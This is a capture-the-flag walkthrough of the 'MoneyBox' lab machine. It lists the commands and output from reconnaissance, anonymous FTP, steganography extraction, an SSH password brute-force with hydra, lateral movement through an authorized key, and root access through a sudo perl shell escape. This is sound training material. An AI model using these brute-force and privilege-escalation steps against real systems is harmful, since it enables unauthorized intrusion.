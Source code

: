 // I started by enumerating the machine
```
┌──(root㉿kali)-[/home/astra]
└─# nmap -p- --min-rate 10000 -Pn -sV 192.168.197.230

Starting Nmap 7.93 ( https://nmap.org ) at 2023-02-21 10:52 EST
Nmap scan report for 192.168.197.230
Host is up (0.14s latency).
Not shown: 65532 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 16.96 seconds
```
// Nothing to see... So I go to the webpage, checked for hidden stuff on the source code, but nothing.

```
<html>
<head><title>MoneyBox</title></head>
<body>
    <h1><big>Hai Everyone......!</big></h1>
    <h2>Welcome To MoneyBox CTF</h2>
    <p><pre>
  __  __                        ____            
 |  \/  |                      |  _ \           
 | \  / | ___  _ __   ___ _   _| |_) | _____  __
 | |\/| |/ _ \| '_ \ / _ \ | | |  _ < / _ \ \/ /
 | |  | | (_) | | | |  __/ |_| | |_) | (_) >  < 
 |_|  |_|\___/|_| |_|\___|\__, |____/ \___/_/\_\
                           __/ |                
                          |___/                 </p><br>
    <p><b>it's a very simple Box.so don't overthink</b></p>
</body>
</html>
```

// So I started scanning for hidden directories or files

```
┌──(root㉿kali)-[/home/astra]
└─# gobuster dir -u http://192.168.197.230/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 150

===============================================================
Gobuster v3.4
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.197.230/
[+] Method:                  GET
[+] Threads:                 150
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.4
[+] Timeout:                 10s
===============================================================
2023/02/21 10:55:51 Starting gobuster in directory enumeration mode
===============================================================
/blogs                (Status: 301) [Size: 318] [--> http://192.168.197.230/blogs/]
/server-status        (Status: 403) [Size: 280]
Progress: 220560 / 220561 (100.00%)
===============================================================
2023/02/21 10:59:20 Finished
===============================================================
```

// I found this directory called "blogs" I got to it and I found something interesting in the source code
```
<html>
<head><title>MoneyBox</title></head>
<body>
    <h1>I'm T0m-H4ck3r</h1><br>
        <p>I Already Hacked This Box and Informed.But They didn't Do any Security configuration</p>
        <p>If You Want Hint For Next Step......?<p>
</body>
</html>
```


<!--the hint is the another secret directory is S3cr3t-T3xt-->

// So, I go to http://192.168.197.230/S3cr3t-T3xt/ and found this on the source code
```
<html>
<head><title>MoneyBox</title></head>
<body>
    <h1>There is Nothing In this Page.........</h1>
</body>
</html>

<!..Secret Key 3xtr4ctd4t4 >
```
// I thought this maybe an password "extractdata" so I tried to connect to ftp, for my surprise it had an image that I had missed on, I download it and I run steghide command to see if it has anything, using the password "extractdata"
```
┌──(root㉿kali)-[/home/astra]
└─# ftp 192.168.197.230

Connected to 192.168.197.230.
220 (vsFTPd 3.0.3)
Name (192.168.197.230:astra): anonymous
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> dir
229 Entering Extended Passive Mode (|||56601|)
150 Here comes the directory listing.
-rw-r--r--    1 0        0         1093656 Feb 26  2021 trytofind.jpg
226 Directory send OK.
```
// Here I run the command "get" to download the image on my machine on the current directory
```
ftp> get trytofind.jpg 

local: trytofind.jpg remote: trytofind.jpg
229 Entering Extended Passive Mode (|||48069|)
150 Opening BINARY mode data connection for trytofind.jpg (1093656 bytes).
100% |***********************************************************************************************************|  1068 KiB  237.53 KiB/s    00:00 ETA
226 Transfer complete.
1093656 bytes received in 00:04 (230.84 KiB/s)
ftp> exit
221 Goodbye.
                                                                                                                                                                       
┌──(root㉿kali)-[/home/astra]
└─# steghide --extract -sf trytofind.jpg
Enter passphrase: 
wrote extracted data to "data.txt".
                                                                                                                                                        
┌──(root㉿kali)-[/home/astra]
└─# cat data.txt   
Hello.....  renu

      I tell you something Important.Your Password is too Week So Change Your Password
Don't Underestimate it.......
```
// Now I got a user called "renu" and the file tells me the password is too week, so I will use hydra to try and crack the ssh password
```
┌──(root㉿kali)-[/home/astra]
└─# hydra -l renu -P rockyou.txt -f 192.168.197.230 ssh -I

Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-02-21 11:11:27
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[WARNING] Restorefile (ignored ...) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ssh://192.168.197.230:22/
[22][ssh] host: 192.168.197.230   login: renu   password: 987654321
[STATUS] attack finished for 192.168.197.230 (valid pair found)
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-02-21 11:12:24
```                                                                                           
// Found the password "987654321" now I will connect to the ssh and get the first flag
```
┌──(root㉿kali)-[/home/astra]
└─# ssh -l renu 192.168.197.230         

renu@192.168.197.230's password: 
Linux MoneyBox 4.19.0-22-amd64 #1 SMP Debian 4.19.260-1 (2022-09-29) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Fri Sep 23 10:00:13 2022
renu@MoneyBox:~$ ls
ftp  local.txt
renu@MoneyBox:~$ cat local.txt 
ee278fead71bfc63679ae9a112139df0
renu@MoneyBox:~$ 
```
// Now we got the first flag ! I go to /home/ and find an user called "lily" and I also got the authorized_key from renu, meaning he can connect to ssh without password
```
renu@MoneyBox:/home$ ls

lily  renu
renu@MoneyBox:/home$ cd lily
renu@MoneyBox:/home/lily$ ls
renu@MoneyBox:/home/lily$ ls -la
total 32
drwxr-xr-x 4 lily lily 4096 Oct 11 10:52 .
drwxr-xr-x 4 root root 4096 Feb 26  2021 ..
-rw------- 1 lily lily  985 Feb 26  2021 .bash_history
-rw-r--r-- 1 lily lily  220 Feb 25  2021 .bash_logout
-rw-r--r-- 1 lily lily 3526 Feb 25  2021 .bashrc
drwxr-xr-x 3 lily lily 4096 Feb 25  2021 .local
-rw-r--r-- 1 lily lily  807 Feb 25  2021 .profile
drwxr-xr-x 2 lily lily 4096 Feb 26  2021 .ssh

renu@MoneyBox:/home/lily$ cd .ssh
renu@MoneyBox:/home/lily/.ssh$ cat authorized_keys 

ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDRIE9tEEbTL0A+7n+od9tCjASYAWY0XBqcqzyqb2qsNsJnBm8cBMCBNSktugtos9HY9hzSInkOzDn3RitZJXuemXCasOsM6gBctu5GDuL882dFgz962O9TvdF7JJm82eIiVrsS8YCVQq43migWs6HXJu+BNrVbcf+xq36biziQaVBy+vGbiCPpN0JTrtG449NdNZcl0FDmlm2Y6nlH42zM5hCC0HQJiBymc/I37G09VtUsaCpjiKaxZanglyb2+WLSxmJfr+EhGnWOpQv91hexXd7IdlK6hhUOff5yNxlvIVzG2VEbugtJXukMSLWk2FhnEdDLqCCHXY+1V+XEB9F3 renu@debian
renu@MoneyBox:/home/lily/.ssh$ 
```
// Now I use ssh lily@192.168.197.230, and got into lily user 
```
renu@MoneyBox:~$ ssh lily@192.168.197.230

The authenticity of host '192.168.197.230 (192.168.197.230)' can't be established.
ECDSA key fingerprint is SHA256:8GzSoXjLv35yJ7cQf1EE0rFBb9kLK/K1hAjzK/IXk8I.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added '192.168.197.230' (ECDSA) to the list of known hosts.
Linux MoneyBox 4.19.0-22-amd64 #1 SMP Debian 4.19.260-1 (2022-09-29) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Fri Feb 26 09:07:47 2021 from 192.168.43.80

lily@MoneyBox:~$ 
```
// I do an sudo -l and I can see that lily can run perl commands as root without asking for password, so I do an simple perl command and got root access. 
```
lily@MoneyBox:/$ sudo perl -e 'exec "/bin/bash";'
root@MoneyBox:/# cd root
root@MoneyBox:~# ls
proof.txt
root@MoneyBox:~# cat proof.txt 
bf3e7ad76f3dfd2cd63774da95695246
root@MoneyBox:~# gg
```



